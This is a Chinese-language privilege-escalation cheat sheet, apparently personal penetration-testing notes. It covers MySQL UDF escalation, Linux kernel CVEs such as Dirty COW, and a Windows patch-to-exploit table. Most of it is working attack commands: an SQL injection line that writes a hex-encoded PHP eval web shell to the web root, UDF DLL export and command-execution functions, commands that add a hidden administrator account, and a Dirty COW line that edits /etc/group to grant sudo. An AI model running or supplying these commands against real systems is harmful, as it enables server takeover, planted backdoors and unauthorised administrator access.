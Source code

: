 # mssql提权
# mysql 提权
## UDF提权
虽然MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，这就是可以自行添加的MySQL 的 UDF。

MYSQL5.1及之后的几个版本又多了一个限制：创建函数时所用的DLL只能放在mysql的plugin目录里面，而且这个plugin目录默认是不存在的，可能就是为了防止黑客通过导出文件的方式将DLL来写到这个文件夹，如果导出文件（`into dumpfile`）的目标目录不存在是会报错的。

**所以在导出UDF提权之前 ，先确定一下MYSQL的版本是有必要的**
`select version();`
## 写入一句话木马

```sql
    union select 
    0x3c3f70687020406576616c28245f504f53545b2770617373275d293b3f3e,2,3 into 
    dumpfile 'c:/www/small.php'

    以上语句连续执行两次，如果出现以下错误，即说明文件写入成功：
    Invalid Query：File 'c:/www/small.php' already exists
    //第二次写入提示文件已存在则说明文件写入成功
```
## 查看MYsql安装根目录
select @@basedir;

根据 我们前面讲述的MySQL5.1版本及其之后版本，我们自定义函数需要用到的shell导出的目录应该是： 
> C:/Program Files/phpStudy/MySQL/lib/plugin/

其实也可以通过以下语句获得插件目录(并不一定真实存在):

> show variables like '%plugin%';

## 创建/lib/plugin目录
> select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib::INDEX_ALLOCATION';   
//利用NTFS ADS创建lib目录

> select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin::INDEX_ALLOCATION';
//利用NTFS ADS创建plugin目录

**利用NTFS ADS创建目录成功率很小，这个命令执行返回一直为空，二次执行不提示目录已存在，即可判断目录创建失败。如上图即目录创建失败。**

## 将udf.dll 导出到plugin目录

> select load_file('C:/www/udf.dll') into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin/udf.dll';


## 通过sql语句通过udf.dll 创建shell函数

### 创建一个自定义函数 shell

    create function shell returns string soname 'udf.dll';
    //假设此时udf.dll被上传到了c:\windows\system32目录
    
    create function shell returns string soname 'C:udf.dll';
    //假设此时udf.dll被上传到了C盘根目录目录
    
    create function shell returns string soname 'udf.dll';
    //假设此时udf.dll被上传到了任意的环境变量目录，如C:\php\

### 用法
`shell`函数用于执行系统命令，用法如下，其中的`set`是将要执行的cmd命令： 
> 
//set命令用于查询系统环境变量  

然后我们尝试在服务器添加一个用户名为`matrix`密码为`matrix`的账户:  
> select shell('cmd','net user matrix matrix /add');
接着尝试把`matrix`账户添加到`administrators`管理组：  
> select shell('cmd','net localgroup administrators matrix /add');  
然后查看详细的账户信息，确认是否已经成功添加上账户和账户是否已经被成功添加到管理员组。如下操作：  
> select shell('cmd','net user matrix');


## 完毕
提权完毕之后我们可以通过以下语句删除相关函数以防被他人利用：

    drop function shell;
    //删除函数
    delete from mysql.func where name='shell';
    //删除函数

#linux 
## cve提权
### CVE-2016-5195 脏牛漏洞 ./dow 文件名 内容
添加用户到sudo组
./dirtyc0w /etc/group "$(sed 's/\(sudo:x:.*:\)/\1test1/g' /etc/group)"
下次管理员再登陆的话 sudo su 不需要密码

### CVE-2016-8655：Linux内核竞争条件漏洞
./chocobo_root

### CVE-2017-1000367 sudo本地提权漏洞
selinux必须开

# win
## 系统密码破解
1. getpass.exe 

## 补丁对应漏洞

    KB2360937 →MS10-084
    KB2478960 →MS11-014
    KB2507938→ MS11-056
    KB2566454→ MS11-062
    KB2646524 →MS12-003
    KB2645640→ MS12-009
    KB2641653→ MS12-018
    KB944653 →MS07-067
    KB952004 →MS09-012
    KB971657 →MS09-041
    KB2620712→ MS11-097
    KB2393802→ MS11-011
    kb942831 →MS08-005
    KB2503665 →MS11-046
    KB2592799→ MS11-080  